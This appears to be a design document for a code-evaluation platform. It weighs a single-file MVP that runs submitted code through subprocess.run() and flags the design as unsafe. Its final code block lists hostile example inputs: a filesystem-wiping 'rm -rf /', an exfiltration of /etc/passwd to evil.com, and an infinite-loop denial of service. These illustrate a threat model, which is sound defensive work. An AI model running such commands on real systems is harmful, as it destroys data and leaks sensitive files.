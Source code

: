 **Key Insight: Even the simplest MVP includes testing**
- TestableComponent is our base abstraction from line 1
- Self-tests run on startup to verify functionality
- Shows that testing isn't "added later" - it's fundamental

If we apply maximum fungibility thinking:
- **T**: Need feedback in hours, not weeks → Simplest possible
- **F**: AI can refactor a single file easily → Start ultra-simple

This leads to: **Can we build ALL components in one Python file?**

### Single-File Component Mapping

| Component | Single-File Implementation | What We Learn |
|-----------|---------------------------|---------------|
| API | Python HTTP server handles POST | Do users like the submission flow? |
| Queue | ❌ None - synchronous execution | Do we actually need async? |
| Monitoring | ❌ None - just "Running..." message | What monitoring do users want? |
| Task Evaluator | subprocess.run() | What safety features are critical? |
| Web Frontend | Embedded HTML string | Is the UI intuitive? |

### Extreme MVP Strengths
- **Zero dependencies** - Anyone can run it
- **Instant deployment** - `python extreme_mvp.py`
- **Complete user flow** - Submit → Execute → See results
- **Learns core questions** - Safety needs, UI preferences, async requirements

### Extreme MVP Weaknesses  
- **No async** - UI blocks during execution
- **No queue** - Can't handle concurrent requests well
- **No monitoring** - Can't see what's happening during execution
- **Minimal safety** - Just a 5-second timeout

### Extreme MVP vs Core Requirements Analysis

Let's honestly assess our extreme MVP against the Big 4:

| Requirement | Extreme MVP Status | Safety Gaps |
|-------------|-------------------|-------------|
| 1. **Safely evaluate models** | ❌ UNSAFE | `subprocess.run()` allows: file access, network calls, system commands |
| 2. **Monitor in real-time** | ❌ Missing | No visibility during execution |
| 3. **Scale to many concurrent** | ❌ Limited | Single-threaded, blocks on each eval |
| 4. **Provide user interface** | ✓ Basic | Has UI but lacks progress feedback |

**Critical Safety Issues with subprocess.run():**
```python
# User could submit:
"import os; os.system('rm -rf /')"  # Delete filesystem
"import requests; requests.post('evil.com', data=open('/etc/passwd').read())"  # Exfiltrate data  
"while True: pass"  # DoS via infinite loop
```

